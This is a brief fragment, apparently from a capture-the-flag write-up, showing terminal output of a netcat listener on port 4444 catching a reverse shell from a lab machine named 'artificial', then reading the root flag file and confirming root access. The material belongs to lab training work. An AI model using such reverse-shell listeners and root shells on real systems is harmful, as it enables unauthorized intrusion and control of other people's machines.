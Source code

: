 ```bash
  nc -lvnp 4444                                    
listening on [any] 4444 ...
connect to [10.10.14.218] from (UNKNOWN) [10.10.11.74] 52262
bash: cannot set terminal process group (56415): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cat /root/root.txt
cat /root/root.txt
c2ea4cc910db9a8251b0619a94a3bfa4
root@artificial:/# whoami
whoami
root
root@artificial:/# 
```
